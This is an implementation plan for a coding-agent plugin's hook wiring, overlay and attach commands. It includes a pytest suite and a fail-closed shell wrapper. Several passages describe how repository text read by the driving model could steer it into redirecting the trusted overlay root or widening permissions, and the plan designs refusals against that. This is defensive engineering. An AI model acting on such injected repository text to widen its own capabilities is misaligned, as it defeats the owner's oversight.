

# Wave 3, plan 1 — the install path: Implementation Plan

> **For agentic workers:** REQUIRED SUB-SKILL: Use superpowers:subagent-driven-development
> (recommended) or superpowers:executing-plans to implement this plan task-by-task. Steps use
> checkbox (`- [ ]`) syntax for tracking.
>
> **The dispatch unit is the wave, not the task.** This plan is cut into lettered waves
> (A–E) over one continuous task numbering. Dispatch **one implementer per wave**, with one
> review round and one reviewer per wave — not a fresh subagent per task. Inside a wave
> nothing changes: every task keeps its own failing test, its own verification and its own
> commit. A controller that dispatches per task pays five dispatches and two reviews for
> changes that do not carry one, and hands half of a coupled pair to an agent that never saw
> the other half.

> **No code block in this plan was executed before it was written down.** Every `Expected:`
> line is a prediction and every mutation outcome is a hypothesis: apply the mutation, run
> the test, revert, and record what actually happened in the task's commit message. If a test
> reddens for another reason, or does not redden, stop and redesign the assertion rather than
> keeping the prose. Where a step's instruction does not match the tree, **report the
> mismatch instead of guessing** — the plan is wrong more often than the tree is.

**Goal:** Make a fresh machine and a fresh repository reach the state the design's success
criterion describes: the plugin's hooks actually fire in a session, the machine carries a
configuration and a preset, the owner's private overlay exists, and a clone is bound to it
with its memory linked in. Four packages deliver that one result — `hooks-core`, `overlay`,
`attach`, `setup` — and they ship together because they share two files and one command path.

**Architecture:** Three new areas (`overlay`, `attach`, `doctor`) join the existing ones under
`src/keelline/`, discovered by name with no shared registry to edit; `hooks` and `memory` grow.
Two static files appear at the plugin root for the first time — `hooks/hooks.json`, the
zero-config path both harnesses read, and `hooks/run-hook.sh`, the shell wrapper that owns
interpreter probing and exit-code normalisation because a Python process cannot fail closed
about its own absence. Everything that writes goes through a writer that already exists:
repository files through `fsops.write_within` / `mkdirs_within` / `remove_within`, whole
artifacts through the scaffold engine (C2), hook entries through `scaffold.apply_entries`,
TOML through one serialiser this plan adds and both its callers use. **No task adds a second
writer**, and where an earlier draft of this plan did, the task now says which primitive it
was reaching past and why that was wrong.

**Tech Stack:** Python ≥ 3.11, standard library only at runtime (`json`, `tomllib`, `os`,
`subprocess`, `pathlib`, `dataclasses`, `enum`, `shutil`), POSIX `sh` for the wrapper, pytest,
ruff, mypy strict, `uv`. External binaries invoked but never imported: `git`, `gh`,
`claude`, `codex`, `pre-commit`.

**Spec:** the agent-harness extraction design, at the source's spec path. This plan leans on
§2 (D2 delivery, D3 neutral core, D11 hook failure policy, D14 enumerated writes, D15
repository-controlled configuration never grants capability), §3 (the trust table's three
principals), §4 (the owner's eleven-step walkthrough, which is this plan's acceptance
narrative), §5.1 (plugin layout), §5.2 (the CLI contract rows for `attach`, `detach`,
`setup`, `overlay`, `doctor`), §5.3 (hooks core, the event/handler/policy table, the wrapper,
markers and diagnostics), §5.4 (manifests and the machine configuration), §5.6 (the preset's
non-budget sections), §6 (the private overlay in full), §7.1–7.2 (`keelline.toml`, the
manifest, the artifact/upgrade table), §7.4 (path containment), §8.4 (`doctor`), §9.1 (store
resolution), §9.5 (injection budgets and the one-entry-per-bundle rule), §10 (the cross-harness
contract and what in it is measured), §12 (failure modes), §14 (the spikes), §15.2 (the four
package rows and their dependency edges). That document lives in a private repository and
cannot be opened from this one; every clause this plan leans on is quoted where it is used.

**Spike record:** `docs/plans/2026-09-05-agent-harness-p0-spikes.md`, Findings → S1, S5, S6,
S7, S8. Those are measurements taken on this machine against Claude Code 2.1.261 and Codex
0.153.4, and they are quoted rather than re-derived. Where a measurement was *not* taken, this
plan says so and refuses to lean on the gap.

**Scope:** packages `hooks-core`, `overlay`, `attach` and `setup` (§15.2), delivered as one
plan. The owner cancelled the standing "one plan = one package, one branch, one session" rule
for wave 3 on 2026-09-17, so a change may cross package lines inside this plan — and three do,
deliberately: Wave A extends `memory/commands.py` with the one harness branch a bundle needs,
Wave B adds a constructor to C1's loader, and Wave D adds non-budget sections to the
already-merged preset file. Each is named in the task that makes it.

A change belongs to this plan iff it lands under `src/keelline/{hooks,overlay,attach,doctor}/`,
`src/keelline/{tomlout.py}`, `src/keelline/memory/{commands,worktree,store,api}.py`,
`src/keelline/config/loader.py`, `src/keelline/presets/recommended.toml`, `templates/overlay/`,
`hooks/`, the matching `tests/` directories, an appended `mutations.toml` entry, an appended
`docs/cli.md` section, a `changelog.d/` fragment, `pyproject.toml`'s `source-include`, the
README rows the new commands owe, or the `skills/` documents whose commands this plan ships.

**Explicitly not in this plan** (they are wave 3's second plan, or later): the reusable
`check.yml` and the smoke workflow (`workflows`); `release check`'s tag path, towncrier
assembly, `v1.0.0`, **and `overlay publish-template`**, which is a maintainer release action
whose only caller is the release lane — it ships there, with that caller, rather than here with
one negative test and nothing to invoke it; the seven authored skills (`skills-author`);
`init`, `upgrade`, `uninstall`, `assess`, `adopt`, `templates/project/` and the MCP server,
all of which are later waves. `mcp` was dropped from wave 3 by the owner on 2026-09-17; it is
off the adoption path by §5.7's own argument.

## Wave launches

Drawn last, and drawn over the **imports**. Every solid edge below is a `Consumes:` line in
some task; the one sequencing choice that is *not* an import edge is drawn dotted and argued.



- **B → C** is an import edge: `attach` reads `projects/<name>/project.toml` inside the
  overlay's layout and imports `overlay.api`'s names for it.
- **C → D** is an import edge: Task 9 creates `src/keelline/tomlout.py`, the single TOML
  serialiser, and Task 12's machine writer is its second caller. `setup` also writes the
  `[overlay] root` that `attach`'s default store comes from, but that is a runtime ordering,
  not an import.
- **A ⇢ B is a sequencing choice and not an import edge**, and an earlier draft of this plan
  asserted otherwise. Wave B imports `presets`, `scaffold`, `memory.api` and its own `Runner`,
  and nothing from Wave A; the overlay's own `hooks/hooks.json` ships as `{"hooks": {}}` and
  `init_instance` never touches it. A is first because it is the wave most likely to move a
  shared contract, not because B needs it.
- **{A, C, D} → E**: `doctor` reports on all of them, which is why it is last rather than
  inside `hooks-core` where §15.2 files it. Putting it where the spec files it would make a
  back-edge from the first wave into the last three.

**The parallel cut this plan does not take.** `{A ∥ B} → {C ∥ D} → {E}` is available — three
rounds instead of five — and is rejected here rather than overlooked. It costs two extra
worktrees and, more expensively, append conflicts on the three files every wave touches
(`mutations.toml`, `docs/cli.md`, `changelog.d/`) plus a two-line conflict in
`NOT_YET_SHIPPED`. Those are exactly the merges a controller resolves by hand while two
implementers wait. Five sequential dispatches cost wall-clock; the cut costs correctness at the
seams, and this plan's whole argument is that the seams are where the defects are.

| Wave | Tasks | Plan lines | What the implementer also has to hold |
|---|---|---|---|
| A | 1-4 | 973 | Findings → S1, S7 and S8 of the spike record; the harness's own hook semantics |
| B | 5-7 | 627 | Findings → S6; §6.1-6.2 of the design; the scaffold engine's plan/apply contract |
| C | 8-11 | 656 | §6.3 in full and §12's five adversarial rows; `worktree.link`'s trust-gate reasoning |
| D | 12-14 | 355 | §5.6, §8.1 and the two existing readers of the machine file |
| E | 15-17 | 393 | everything the other four shipped, which is the point of it |

Counted, not estimated: the previous revision's table was estimated and a review measured it
to within 25 lines, which is luck rather than method. A/D is 2.74× by line count and less than
that by prose, most of Wave A being executable test code rather than implementation. Do **not**
split a wave on size. If an implementer is killed by a usage limit, **resume it rather than
restarting it**: the transcript persists and a resumed agent keeps everything it had read.

## How the tasks are written

Every task carries a failing test, an `Interfaces:` block with exact names and types, a
verification step and a commit.

Test **bodies** are given in full for the first implementation task of each wave and for every
test whose assertion is about platform behaviour, a refusal, or a trust boundary — the places
where a paraphrase is not checkable and a wrong guess is expensive. The remaining tests are
given as a name, a typed signature, and **the specification comment that must survive into the
committed file**, with `...` standing for the body the implementer writes. The comment is the
specification, not a hint: it names the exact assertion and the clause it comes from, and the
body is ordinary fixture-and-assert code over interfaces this plan names exactly.

Every fenced block in this document parses. The Python blocks were run through `ast.parse`, the
JSON through `json.loads` and the TOML through `tomllib.loads` before it was committed — which
is why the stubs carry `...` rather than ending on a comment. The two exceptions are marked
**fragment** where they appear: they are lines to insert into an existing function, not files.

Measured on the previous revision: 27 full bodies in Wave A and 26 of 70 in Waves B–E, which
that revision described as "Wave A executable, B–E specification" — a description that was
wrong about its own document. The count is now stated rather than characterised, and every
test that the previous revision left as a stub *and* that could not be derived from its
comment now carries a body.

**The consequence, and it is a real one:** if a body cannot be written from its comment and the
interfaces, that is a gap in *this plan*. Report it and stop; do not invent an assertion to
fill the space. An assertion nobody specified is the thing the mutation-oracle rule exists to
catch, one step too late.

## Global Constraints

Every task's requirements implicitly include this section.

- **Python floor 3.11.** `requires-python = ">=3.11"`; the runtime imports only the standard
  library and `keelline` itself, enforced by `tests/test_import_boundary.py`. No task in this
  plan may add a runtime dependency. `gh`, `claude`, `codex` and `pre-commit` are *invoked*,
  never imported, and every one of them is optional: a missing binary is a reported finding,
  never a traceback.
- **Exit codes (C5):** 0 success, 1 findings or failure, 2 refusal or internal error. Library
  modules raise `keelline.errors.Failure` / `Refusal`; only `cli.py` maps them. `hook EVENT`
  is exempt — its exit code is the dispatcher's, and is 0 or 2 only.
- **Import an area through its published surface, never through a private module.**
  `keelline.scaffold`'s own docstring says it: "Importing a private module of this package from
  another area is a review finding; if a lane needs something this list does not carry, the
  list grows deliberately." So: `from keelline.scaffold import plan, apply, Template,
  apply_entries, owned_ids`, never `from keelline.scaffold.engine import …`. The same holds for
  `keelline.memory.api` and `keelline.guards.api`. The previous revision of this plan cited
  `keelline.scaffold.engine` and `.model` nine times and `keelline.scaffold` never — which is
  how it missed that `entries.py` already ships the merge Task 9 was about to rewrite.
- **Every write goes through an existing primitive.** Inside a repository or any directory
  with a root: `fsops.write_within` / `mkdirs_within` / `remove_within`, which walk with
  `O_NOFOLLOW` so a component that becomes a symlink after the check cannot redirect the write.
  `mkdirs_within`'s docstring names this plan's four lanes by name — "`attach`, `setup`,
  `overlay` and `hooks-core` all write files that are not `Template`s; a private helper leaves
  each of them to re-derive this, and the failure mode of getting it wrong is silent."
  `fsops.write_atomically` on a bare `Path` is **not** the equivalent: it opens the parent
  `O_RDONLY | O_DIRECTORY` with no `O_NOFOLLOW` and calls `mkdir(parents=True)` first. Use it
  only where there is genuinely no root to be relative to, and say which line of the docstring
  permits it.
- **Repository bytes are data.** Anything a repository authored — a note, an index line, a
  `memory.groups` entry, a remote URL, a `project.name` — reaches the model only inside
  `trust.wrap`'s delimited region, and only after `keelline memory trust`. A refusal message
  built out of one is still one. Counts, labels and booleans this code computes may be printed.
- **The repository never grants capability (D15).** No task may let `keelline.toml`, a note, or
  a path a model was told to pass choose a store outside the recorded overlay, add a hook
  entry, widen a permission, or select its own enforcement state. Two consequences this plan
  learned the hard way and states up front: the overlay root comes from the machine file and
  never from an argument (DP2), and a write that widens a permission refuses without an
  explicit confirmation flag (DP3).
- **In an agent harness, "a flag a person types" is not a control.** The CLI is driven by a
  model that has read repository text. Any gate whose only enforcement is a sentence in a
  `SKILL.md` is enforcement by model compliance. Where this plan needs a gate, the gate is a
  parameter and a `Refusal`, and the skill's step is the UX around it.
- **C2 is frozen for this plan.** No task changes `src/keelline/scaffold/` semantics. A task
  that believes it needs to **stops and reports the gap** rather than editing the engine; the
  controller decides. Adding a `Template`, or calling a pure function the package already
  exports, is not a change to C2.
- **Handlers stay pure** `(event, config) -> HookResult` with a declared `policy`, and
  **nothing in any `hooks.py` imports the configuration layer or the presets at module
  scope** — `tests/test_areas.py` asserts a clean-interpreter `discover()` imports neither.
  Annotations are strings under `TYPE_CHECKING`; real imports live inside handler bodies.
- **A test must never read or write the developer's real `~/.config/keelline/`, `~/.claude/`
  or `~/.codex/`.** Pass `--machine` to a command, `machine=` to a resolver, `home=` where a
  helper takes one, and `tmp_path` for everything else. A test that shells out to `gh`,
  `claude`, `codex` or `pre-commit` is forbidden: stub the `Runner` seam, which Wave B
  introduces for exactly this reason and Wave D reuses.
- **A walk-based assertion asserts its walk is non-empty first.** `tests/test_import_boundary.py`
  carries the idiom and the reason: it is "the mutation guard for the test above, which passes
  vacuously if the walk ever stops finding files". Every `rglob`-driven loop this plan adds
  does the same.
- **Every new assertion ships with the mutation that reddens it**, or a sentence saying why
  none exists. For a load-bearing guard — a containment check, a trust gate, a refusal
  something downstream reads as permission — add the entry to `mutations.toml`. The schema is
  `name`, `file`, `before`, `after`, `reddens` — **not `tests`**; all 119 existing entries carry
  `name` and `reddens`, and `scripts/mutation_oracle.py` raises `KeyError: 'name'` on an entry
  without one. The oracle also **refuses to mutate a tree with uncommitted changes**, so every
  oracle run in this plan comes *after* the task's commit and its result is recorded with
  `git commit --amend`.
- **A task that registers a command adds its README row in the same commit.**
  `tests/test_documents.py::test_every_registered_command_has_a_readme_row` walks the real
  parser against README's `## Commands` block and fails on any registered command with no row;
  `test_every_readme_row_parses` fails on a row that does not. This plan registers eight new
  commands, so without this rule the full suite goes red in four of five waves on something
  that is not the wave's own code. Rows are prose a newcomer reads, not usage strings.
- **A task that ships a new top-level tree adds it to `pyproject.toml`'s `source-include`.**
  The wheel carries only `src/`, and the sdist carries what that list names. `hooks/**` and
  `templates/**` are in neither today, so a test module reading them cannot pass from an
  unpacked sdist — the exact failure the list exists to prevent — and `overlay create --local`
  would have no templates after a `uv tool install`. A tree the *runtime* reads is resolved the
  way `scaffold.shipped_profiles()` already resolves `profiles/`: the package first, a checkout
  second, and never a bare `parents[n]`.
- **English artifacts (D13).** Every file, comment, test name, commit subject and changelog
  fragment in this plan's output is English.
- **The full local gate.** Defined once, here; every task's verification step says "run the
  full gate" and names only the extra focused runs it wants.

  ```bash
  uv run pytest --cov --cov-report=term-missing --cov-fail-under=92
  uv run ruff check . && uv run ruff format --check .
  uv run mypy                                   # roots are src, tests and scripts (pyproject)
  uv run keelline release check
  claude plugin validate --strict .claude-plugin/plugin.json
  claude plugin validate --strict .claude-plugin/marketplace.json
  claude plugin validate .codex-plugin/plugin.json
  ```

  Coverage is in the gate because CI fails below 92% and three new areas can only move it
  down. The validator is invoked **once per manifest path**: validating the directory checks
  only the marketplace manifest (measured 2026-09-05), so one call silently skips the other
  two.

## Design decisions this plan takes

The spec leaves three seams unresolved that a four-package plan cannot leave unresolved. Each
is decided here, with its reason, so that no task has to invent it twice. A fourth decision —
routing the bundle entries through `keelline hook --slot` — was taken by the previous revision
and is **reversed**; the reversal is recorded below because the reasoning is worth more than
the decision was.

**DP1 — the ten bundle entries invoke `keelline memory session-context --bundle X --part N`,
and must never pass `--json`.** This is the contract the tree already ships:
`docs/cli.md` says of that command "This is what a `SessionStart` hook entry invokes", and
`tests/memory/test_hooks.py::test_no_session_start_context_handler_is_registered` asserts the
matching negative — "The four injection bundles are `hooks.json` entries, not handlers".

*Reversed from the previous revision, which routed them through `keelline hook SessionStart
--slot NAME`.* Three separate comments in the tree falsify that, and one of them is a
trust-boundary failure rather than a style objection:

- `bundles.py`'s `CAP_MARGIN` comment addresses this lane by name: "**For the `hooks-core`
  lane, which reads `SLOTS` out of this file: the `hooks.json` entries must not pass
  `--json`.** The margin is additive only because `memory session-context` prints the text
  raw." `dispatch.render` is a JSON envelope by construction, so the `--slot` route is the
  forbidden shape under a different name. A part is packed to `hook_output_chars - CAP_MARGIN`,
  wrapped it exceeds the platform cap, `dispatch._clamp` fires on the **normal** path, and
  `_clamp` truncates `context[:keep]` — a blind prefix that drops `trust.wrap`'s closing
  nonce. `bundles.render`'s docstring records that exact failure as already measured once: a
  bundle that "arrived with **one** of its two region markers … no end marker, which is the
  one thing `trust.wrap`'s nonce region exists to make impossible."
- `memory/commands.py` already names the invariant and says nobody owns it: the no-`--json`
  expectation was "owned by a different lane, asserted by no test here". Task 4 asserts it, so
  it stops being an expectation.
- `Bundle` and `SLOTS` live in `bundles.py`, which imports `keelline.config` and
  `keelline.presets`; a `register()` that reads `SLOTS` reddens `tests/test_areas.py` whether
  the import sits at module scope or inside the function.

What the reversal costs is one line, not a layer: the index bundle is Codex-only (Claude Code
reads `MEMORY.md` natively), and that branch moves into `memory session-context`'s own command
function, where `dispatch.detect_harness(os.environ)` can answer it. What it buys is the
deletion of a flag, a dispatcher function, eleven handlers, a whole task, and the
trust-boundary failure above.

**DP2 — the wrapper's argv is `run-hook.sh <policy> <keelline args…>`, and the wrapper refuses
when it has none.** The S8 draft took `<event> <policy>` and hard-coded the script it ran. The
shipped wrapper never parses Keelline's own arguments: it probes an interpreter, resolves the
project root, `cd`s there so every command's `--root` default is correct, and maps exit codes
by `<policy>`. Policy stays first because it is the only argument the wrapper itself reads —
and because a missing first argument must be a refusal with a token rather than a `set -u`
message and exit 1, which is what Task 1 measures.

**DP3 — the overlay root comes from the machine file; `--store` names a directory inside it;
and a write that widens a permission refuses without `--yes`.** Three rules, one boundary.

The overlay is trusted *by construction*, and the construction is that
`machine_config_path(interactive=False)` makes the machine file unselectable by a repository —
`machine.py`'s docstring spends twenty lines on why gating one of a pair of equivalent
variables "is not a partial defence, it is a redirect with a longer name". Deriving the overlay
root from `--store`'s own parent, as the previous revision did, throws that away: the source of
every allow rule and hook entry `attach` merges becomes a path on a command line, in a harness
where command lines are written by a model that read the repository. It also produces stores
the hook path then refuses, because `memory.store` checks each linked group against
`permitted_roots(overlay_root(machine), name)`.

So `read_binding` resolves the overlay from `overlay_root(machine)` and refuses a `--store`
that is not `<overlay>/projects/<segment>`; and `attach(…, confirmed=False)` raises `Refusal`
whenever the diff would add an allow rule. The skill's "relay the diff, then ask" stays as UX.
`setup` records the root before the first `attach` (Task 13), and Task 17's walkthrough already
runs them in that order, so the cost is two refusals and two tests.

**DP4 — who owns `.claude/settings.local.json`, and the asymmetry inside it.** `attach` owns
it outright; `hooks-core` writes nothing into a project and owns `hooks/hooks.json` in the
plugin root alone. Inside the file the two kinds of entry are **not** symmetric, and the
previous revision's "one marker for both" hid it:

- **Hook entries** carry `# keelline:<id>` inside their command string and are merged by
  `scaffold.apply_entries`, which keys by that marker. They therefore have an in-band witness:
  `scaffold.owned_ids(document)` reads them back, which is what `doctor`'s provenance row is.
  Ids are **per entry**, not one shared `overlay` id — `owned_ids` is a `dict[str, str]`, so
  one id for N entries yields one row and the same id under two events keeps only the last.
- **`permissions.allow` strings** cannot carry a marker: `mark()` appends to a *command* and
  `unmarked()` walks `groups → hooks → command`. They have exactly one witness, the ledger.

The ledger is `.keelline/local/attach.json`, under `.keelline/local/` — and **Task 9 writes the
`.gitignore` region that makes that path untracked**, because the repository has no `.keelline`
line today and the lane that would have shipped one (`templates/project/`) is out of scope.
Without it, `attach` drops the owner's personal allow rules into a tracked-by-default path.
The committed `.keelline/manifest.json` is not an alternative: the scaffold engine stamps a
digest of the document into it, which would publish a digest of those rules to every
collaborator.

**DP5 — the machine configuration's schema is `setup`'s, and its readers are unchanged.**
`[personal]` is already read by `config.loader._personal` and `[overlay] root` by
`memory.store.overlay_root`; both resolve the file with `interactive=False` and neither may
change in this plan. `setup` writes those two tables plus `[machine]` (what it installed, so
`doctor` can check it), through the same serialiser `attach` uses for `project.toml`. A task
that finds itself wanting a third reader of this file stops and reports.

---
## Wave A — Tasks 1-4: the session wiring (`hooks-core`)

One implementer, one review round. Nothing this repository ships today fires in a real
session: there is no `hooks/hooks.json`, no wrapper, and `run_hook` passes `NullSink()`, so
`once_key` degrades to "every invocation" and every diagnostic is discarded. This wave closes
all three, and it is the only wave whose output the *other harness* reads directly.

### Task 1: the shell wrapper

**Files:**
- Create: `hooks/run-hook.sh` (mode 0755)
- Test: `tests/hooks/test_wrapper.py`

**Interfaces:**
- Consumes: `scripts/keelline`, the launcher that already exists and already refuses below
  Python 3.11 with exit 2; `tests.test_launcher._old_python`, the helper that finds a real
  sub-floor interpreter or `None`.
- Produces: the wrapper contract every `hooks/hooks.json` entry uses —
  `run-hook.sh <policy> <keelline args…>` where `<policy>` is `open` or `closed`; the
  environment variable `KEELLINE_PYTHON_CANDIDATES` (space-separated, overrides the built-in
  list, used by the tests and by nothing else); and five refusal tokens, `KL_ARGV`,
  `KL_NO_PY`, `KL_NO_LAUNCHER`, `KL_RC` and their shared `keelline: <token> …; refusing` shape.

D11 puts the fail-closed guarantee here rather than in Python because a Python process cannot
fail closed about its own absence: a missing script exits 2 by CPython accident, a missing
interpreter 127, an `ImportError` 1, a lost executable bit 126 — and Claude Code treats every
non-2 exit as a non-blocking error, which is permission. Findings → S8 measured five of those
rows through a wrapper of this shape and all five blocked; the sixth, a cleared executable bit,
did **not** block, and cannot: the harness never executes the file, so no code of ours runs.

**Two things this task fixes that the wrapper's S8 draft got wrong.** First, the draft's head
is `set -u` then `policy="$1"`, so an entry that loses its policy argument exits 1 with a
shell's own message and no token — a `closed` guard silently disarmed, by the one failure the
wrapper can cause itself. Measured on this machine's `/bin/sh` (GNU bash 3.2.57): `$1: unbound
variable`, `exit=1`. The mapping is also shell-dependent, which is itself the argument for an
explicit check rather than for trusting `set -u`. Second, the draft never resolves the project
root, so a command whose `--root` defaults to `.` would read whatever directory the harness
happened to launch in.

- [ ] **Step 1: Write the failing test**

```python
# tests/hooks/test_wrapper.py
from __future__ import annotations

import os
import stat
import subprocess
import sys
from pathlib import Path

import pytest

from tests.test_launcher import _old_python

ROOT = Path(__file__).resolve().parents[2]
WRAPPER = ROOT / "hooks" / "run-hook.sh"


def _plugin_root(tmp_path: Path, exit_code: int, *, echo_cwd: bool = False) -> Path:
    """A plugin root whose launcher is a shell script exiting with `exit_code`.

    A fake launcher, not the real one: this test is about the wrapper's own exit-code mapping
    and its argv contract, and a real `keelline` run would couple it to every command in the
    package.
    """
    root = tmp_path / "plugin"
    (root / "scripts").mkdir(parents=True)
    launcher = root / "scripts" / "keelline"
    body = 'pwd\n' if echo_cwd else ''
    launcher.write_text(f"#!/bin/sh\n{body}exit {exit_code}\n", encoding="utf-8")
    launcher.chmod(0o755)
    return root


def _run(
    *argv: str,
    plugin_root: Path | None = None,
    candidates: str | None = None,
    cwd: Path | None = None,
) -> subprocess.CompletedProcess[str]:
    env = dict(os.environ)
    env.pop("CLAUDE_PLUGIN_ROOT", None)
    env.pop("CLAUDE_PROJECT_DIR", None)
    if plugin_root is not None:
        env["CLAUDE_PLUGIN_ROOT"] = str(plugin_root)
    if candidates is not None:
        env["KEELLINE_PYTHON_CANDIDATES"] = candidates
    return subprocess.run(
        [str(WRAPPER), *argv],
        capture_output=True,
        text=True,
        check=False,
        env=env,
        cwd=str(cwd) if cwd else None,
    )


def test_no_policy_argument_refuses_with_a_token(tmp_path: Path) -> None:
    # The one failure the wrapper can cause itself. `set -u` alone exits 1 with the shell's own
    # message and no token, which Claude Code reads as a non-blocking error — permission. An
    # entry that loses its first argument must disarm loudly or not at all.
    result = _run(plugin_root=_plugin_root(tmp_path, 0))
    assert result.returncode == 2
    assert "KL_ARGV" in result.stderr


@pytest.mark.parametrize("policy,code", [("closed", 2), ("open", 0)])
def test_no_interpreter_of_the_floor_version_refuses_under_closed_only(
    tmp_path: Path, policy: str, code: int
) -> None:
    # S8 row 1: the wrapper must decide this itself. Every Python-side fallback is unreachable
    # here by construction — there is no interpreter to run it.
    result = _run(
        policy, "hook", "PreToolUse",
        plugin_root=_plugin_root(tmp_path, 0),
        candidates="/nonexistent/python3",
    )
    assert result.returncode == code
    assert "KL_NO_PY" in result.stderr


def test_an_interpreter_below_the_floor_is_rejected(tmp_path: Path) -> None:
    # S8 row 2, with a real sub-floor interpreter rather than a fake that exits non-zero for
    # every argument. A fake cannot exercise `sys.version_info >= (3, 11)` at all: mutate the
    # predicate to `True` and the fake still refuses, so the row would duplicate the one above
    # and prove nothing. `_old_python` is the tree's own seam for this, and CI pins it through
    # KEELLINE_OLD_PYTHON so the row runs there rather than skipping everywhere.
    old = _old_python()
    if old is None:
        pytest.skip("no interpreter below 3.11 on this machine; set KEELLINE_OLD_PYTHON")
    result = _run(
        "closed", "hook", "PreToolUse",
        plugin_root=_plugin_root(tmp_path, 0),
        candidates=old,
    )
    assert result.returncode == 2
    assert "KL_NO_PY" in result.stderr


def test_an_interpreter_at_the_floor_is_accepted(tmp_path: Path) -> None:
    # The positive row the suite lacks. Without it every interpreter assertion is a refusal,
    # and a probe that rejected *everything* would pass all of them.
    result = _run(
        "closed", "hook", "PreToolUse",
        plugin_root=_plugin_root(tmp_path, 0),
        candidates=sys.executable,
    )
    assert result.returncode == 0
    assert "KL_NO_PY" not in result.stderr


def test_an_unset_plugin_root_refuses_rather_than_running_something_else(tmp_path: Path) -> None:
    # S8 row 3. The printed path is root-relative, which is how that row was told apart from a
    # deleted launcher at the time.
    result = _run("closed", "hook", "PreToolUse")
    assert result.returncode == 2
    assert "KL_NO_LAUNCHER" in result.stderr


def test_a_missing_launcher_refuses(tmp_path: Path) -> None:
    root = _plugin_root(tmp_path, 0)
    (root / "scripts" / "keelline").unlink()
    result = _run("closed", "hook", "PreToolUse", plugin_root=root)
    assert result.returncode == 2
    assert "KL_NO_LAUNCHER" in result.stderr


@pytest.mark.parametrize("rc", [1, 3, 126, 127])
def test_any_other_exit_code_becomes_a_refusal_under_closed(tmp_path: Path, rc: int) -> None:
    # S8 row 5 generalised. 1 is an ImportError, 126 a lost executable bit on the launcher,
    # 127 a missing interpreter the probe somehow accepted; none of them may read as allow.
    result = _run("closed", "hook", "PreToolUse", plugin_root=_plugin_root(tmp_path, rc))
    assert result.returncode == 2
    assert "KL_RC" in result.stderr and str(rc) in result.stderr


@pytest.mark.parametrize("rc", [0, 2])
def test_the_two_platform_codes_pass_through_untouched(tmp_path: Path, rc: int) -> None:
    # The dispatcher owns these two and nothing else may reinterpret them: a 2 it produced is
    # a handler's deny, and the wrapper must not relabel it as its own failure.
    result = _run("closed", "hook", "PreToolUse", plugin_root=_plugin_root(tmp_path, rc))
    assert result.returncode == rc
    assert "keelline:" not in result.stderr


def test_keelline_runs_from_the_project_root(tmp_path: Path) -> None:
    # Every hooks.json entry but the dispatcher's relies on `--root` defaulting to `.`, and the
    # harness does not promise to launch a hook in the project. The wrapper resolves the root —
    # CLAUDE_PROJECT_DIR, else git — and changes into it, so one rule serves every entry.
    project = tmp_path / "project"
    (project / ".git").mkdir(parents=True)
    elsewhere = tmp_path / "elsewhere"
    elsewhere.mkdir()
    root = _plugin_root(tmp_path, 0, echo_cwd=True)
    env_root = dict(os.environ, CLAUDE_PROJECT_DIR=str(project))
    result = subprocess.run(
        [str(WRAPPER), "open", "memory", "session-context", "--bundle", "preset-rules"],
        capture_output=True, text=True, check=False, cwd=str(elsewhere),
        env={**env_root, "CLAUDE_PLUGIN_ROOT": str(root)},
    )
    assert result.stdout.strip() == str(project.resolve())


def test_the_wrapper_is_committed_executable() -> None:
    # S8 row 6 measured that a 0644 wrapper does NOT block: the harness never executes it, so
    # no code of ours runs and no policy applies. The wrapper cannot defend its own mode; this
    # assertion and `doctor`'s wrapper probe (Task 15) are the whole defence.
    assert stat.S_IMODE(WRAPPER.stat().st_mode) & 0o111, "run-hook.sh must ship executable"
```

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/hooks/test_wrapper.py -q`
Expected: every test FAILS — collection succeeds, each `subprocess.run` raises
`FileNotFoundError` because `hooks/run-hook.sh` does not exist.

- [ ] **Step 3: Write the wrapper**

```sh
#!/bin/sh
# Keelline hook wrapper. $1 = policy (open|closed); the rest is Keelline's own argv.
#
# This file exists because a Python process cannot fail closed about its own absence (D11):
# a missing script exits 2 by CPython accident, a missing interpreter 127, an ImportError 1,
# a lost executable bit 126 — and Claude Code reads every non-2 exit as a non-blocking error,
# which is permission. Each refusal prints its own token so an exit 2 is attributed, never
# inferred; Codex downgrades an exit 2 with empty stderr to a plain failure, so the reason is
# part of the contract and not a courtesy.
set -u

refuse() { echo "keelline: $1; refusing" >&2; exit 2; }
degrade() { echo "keelline: $1; continuing open" >&2; exit 0; }

# Before `set -u` can speak for us. An entry that lost its policy argument would otherwise die
# with the shell's own "unbound variable" and exit 1 — measured as exit 1 with no token on
# /bin/sh (bash 3.2.57), and exit 0 under `zsh --emulate sh`, so the mapping is not even
# portable. A disarmed guard must say so.
[ $# -ge 1 ] || refuse "KL_ARGV no policy argument"
policy="$1"
shift

fail() {
  if [ "$policy" = closed ]; then refuse "$1"; fi
  degrade "$1"
}

launcher="${CLAUDE_PLUGIN_ROOT:-}/scripts/keelline"

# The probe runs code rather than matching a path: bare `python3` in a hook subprocess can
# resolve to macOS's 3.9, and a path list alone would fall through to it on a machine with no
# python.org or Intel-Homebrew install (S8 row 2 measured exactly that fall-through).
p=
for c in ${KEELLINE_PYTHON_CANDIDATES:-/Library/Frameworks/Python.framework/Versions/3.13/bin/python3 /opt/homebrew/bin/python3 /usr/local/bin/python3 /usr/bin/python3 python3}; do
  if command -v "$c" >/dev/null 2>&1 && "$c" -c 'import sys; sys.exit(0 if sys.version_info >= (3, 11) else 1)' >/dev/null 2>&1; then
    p="$c"
    break
  fi
done
[ -n "$p" ] || fail "KL_NO_PY no python3 of 3.11 or newer among the candidates"

[ -n "${CLAUDE_PLUGIN_ROOT:-}" ] && [ -f "$launcher" ] || fail "KL_NO_LAUNCHER launcher missing at ${launcher}"

# Every entry but the dispatcher's relies on `--root` defaulting to the current directory, and
# no harness promises to launch a hook inside the project. Resolved here, once, rather than
# threaded through each entry's argv: CLAUDE_PROJECT_DIR is Claude Code's (Codex sets no such
# name — S1), and `git` answers for both. A root that cannot be resolved is not fatal: the
# command then finds no configuration and emits nothing, which is the correct open degradation.
root="${CLAUDE_PROJECT_DIR:-}"
[ -n "$root" ] || root=$(git rev-parse --show-toplevel 2>/dev/null || true)
[ -n "$root" ] && cd "$root" 2>/dev/null || true

"$p" "$launcher" "$@"
rc=$?
case "$rc" in
  0|2) exit "$rc" ;;
  *) fail "KL_RC keelline exited rc=$rc" ;;
esac
```

